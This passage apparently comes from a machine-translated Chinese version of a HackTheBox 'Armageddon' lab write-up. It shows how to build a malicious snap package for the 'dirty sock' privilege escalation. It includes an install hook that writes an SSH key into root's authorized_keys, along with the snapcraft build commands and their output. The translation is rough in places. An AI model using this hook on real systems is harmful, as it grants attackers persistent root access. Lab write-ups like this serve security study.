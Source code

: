 “脏袜子”帖子中有一个部分介绍了如何创建快照包：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210326151833655.png) 

我从 Ubuntu VM 上工作来制作快照，然后按照说明进行操作。已安装工具：

    sudo snap install --classic snapcraft
    

现在，我将找到一个要处理的目录，然后运行 。它创建一个目录，其中包含：`snapcraft init``snap``snapcraft.yaml`

    df@buntu:~$ cd /tmp/
    df@buntu:/tmp$ mkdir dirty_snap
    df@buntu:/tmp$ cd dirty_snap/
    df@buntu:/tmp/dirty_snap$ snapcraft init
    Created snap/snapcraft.yaml.
    Go to https://docs.snapcraft.io/the-snapcraft-format/8337 for more information about the snapcraft.yaml format.
    

我将准备安装挂钩：

    oxdf@parrot$ mkdir snap/hooks
    oxdf@parrot$ touch snap/hooks/install
    oxdf@parrot$ chmod a+x snap/hooks/install
    

示例中的下一步，它们保存到 Bash 脚本中，该脚本创建用户并将其添加到组中。我将让我的只是将公共SSH密钥写入根文件：`install``sudoers``authorized_keys`

    df@buntu:/tmp/dirty_snap$ cat > snap/hooks/install << "EOF"
    #!/bin/bash
    
    mkdir -p /root/.ssh
    echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys
    EOF
    

下一个文件 ， 只是样板文件。我只用这个例子：`snapcraft.yaml`

    df@buntu:/tmp/dirty_snap$ cat > snap/snapcraft.yaml << "EOF"
    name: armageddon
    version: '0.1' 
    summary: Empty snap, used for exploit
    description: |
        pwn armageddon                              
           
    grade: devel
    confinement: devmode
    
    parts:
      my-part:
        plugin: nil
    EOF
    

现在在运行上，它会创建包：`snapcraft`

    df@buntu:/tmp/dirty_snap$ snapcraft
    This snapcraft project does not specify the base keyword, explicitly setting the base keyword enables the latest snapcraft features.
    This project is best built on 'Ubuntu 16.04', but is building on a 'Ubuntu 20.04' host.
    Read more about bases at https://docs.snapcraft.io/t/base-snaps/11198
    Pulling my-part 
    Building my-part 
    Staging my-part 
    Priming my-part 
    Snapping 'armageddon' |                                                                                      
    Snapped armageddon_0.1_amd64.snap
    df@buntu:/tmp/dirty_snap$ ls *.snap
    armageddon_0.1_amd64.snap
    